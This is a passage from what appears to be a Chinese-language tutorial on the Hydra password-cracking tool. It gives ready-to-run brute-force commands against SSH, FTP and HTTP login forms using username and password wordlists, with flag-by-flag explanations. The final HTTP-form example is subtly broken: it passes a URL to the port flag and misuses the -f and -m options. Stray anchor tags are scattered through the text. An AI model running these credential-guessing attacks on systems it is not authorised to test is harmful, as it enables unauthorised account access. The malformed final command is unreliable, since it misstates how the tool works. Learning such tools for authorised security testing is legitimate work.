 { #82e021}

    
    - `-l root`：指定用户名为 `root`。
        
    - `-P /path/to/passwords.txt`：从密码字典文件中读取密码。
        
    - `ssh://192.168.1.100`：指定目标主机和协议。

{ #495457}


{ #39f055}

{ #d8a8c8}


2. #### **破解 FTP 服务**：
    ```bash
    hydra -L /path/to/usernames.txt -P /path/to/passwords.txt ftp://192.168.1.100
    ```
    
    - `-L /path/to/usernames.txt`：从用户名字典文件中读取用户名。
        
    - `-P /path/to/passwords.txt`：从密码字典文件中读取密码。
        
    - `ftp://192.168.1.100`：指定目标主机和协议。


3. #### **破解 HTTP 表单**：

```
    hydra -l admin -P /path/to/passwords.txt 192.168.1.100 http-post-form "/login.php:username=^USER^&password=^PASS^:F=incorrect"
```
    
{ #ea11bf}

    
    - `http-post-form`：指定服务类型为 HTTP 表单。
        
    - `/login.php:username=^USER^&password=^PASS^:F=incorrect`：指定表单路径、参数和错误消息。



4. #### 破解 HTTP 表单认证

假设目标是 `http://localhost/login.php`，表单数据为 `username=^USER^&password=^PASS^&Login=Login`，错误消息为 `Login failed`，密码字典文件为 `rockyou.txt`。

1. ##### **创建表单数据文件**： 创建一个名为 `login-form.txt` 的文件，内容如下：
    `username=^USER^&password=^PASS^&Login=Login`

1. ##### **运行 Hydra**：
    
    ```bash
    hydra -l admin -P rockyou.txt -s http://localhost/login.php -f login-form.txt -m "username=^USER^&password=^PASS^&Login=Login:Login failed" -V
    ```

- `-l admin`：指定用户名为 `admin`。
    
- `-P rockyou.txt`：指定密码字典文件为 `rockyou.txt`。
    
- `-s http://localhost/login.php`：指定目标主机的 URL。
    